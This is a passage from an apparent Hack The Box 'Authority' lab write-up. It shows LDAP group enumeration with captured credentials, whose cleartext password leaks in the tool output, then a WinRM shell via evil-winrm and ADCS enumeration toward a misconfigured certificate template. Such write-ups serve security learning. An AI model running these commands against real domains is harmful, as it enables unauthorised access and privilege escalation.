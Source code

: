 ### LDAP - TCP 389 / 636

After validating the captured credentials, I enumerate group memberships for the `svc_ldap` account.

```bash
$ nxc ldap authority -u 'svc_ldap' -p 'l[REDACTED]!' -M groupmembership -o 'USER=svc_ldap'
LDAP        10.129.76.109   389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
LDAPS       10.129.76.109   636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
GROUPMEM... 10.129.76.109   389    AUTHORITY        [+] User: svc_ldap is member of following groups: 
GROUPMEM... 10.129.76.109   389    AUTHORITY        Remote Management Users
GROUPMEM... 10.129.76.109   389    AUTHORITY        Domain Users
```

## Shell as svc_ldap

The `svc_ldap` account is a member of the `Remote Management Users` group, granting it permission to connect via WinRM.

```bash
$ evil-winrm -i authority.htb -u 'svc_ldap' -p 'l[REDACTED]!' 

Evil-WinRM shell v3.7

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> write-output $env:username
svc_ldap
```

## Shell as Administrator

To escalate privileges, I enumerate the domain, only to find that ADCS (Active Directory Certificate Services) is running on the target machine.

```bash
$ nxc ldap authority -u 'svc_ldap' -p 'l[REDACTED]r!' -M adcs
LDAP        10.129.76.109   389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
LDAPS       10.129.76.109   636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
ADCS        10.129.76.109   389    AUTHORITY        [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.76.109   389    AUTHORITY        Found PKI Enrollment Server: authority.authority.htb
ADCS        10.129.76.109   389    AUTHORITY        Found CN: AUTHORITY-CA
```

Using [`Certipy`](https://github.com/ly4k/Certipy), I find a misconfigured `CorpVPN` certificate template. The template may be used by any domain computer to request a certificate as indicated by the presence of the `AUTHORITY.HTB\Domain Computers` group.
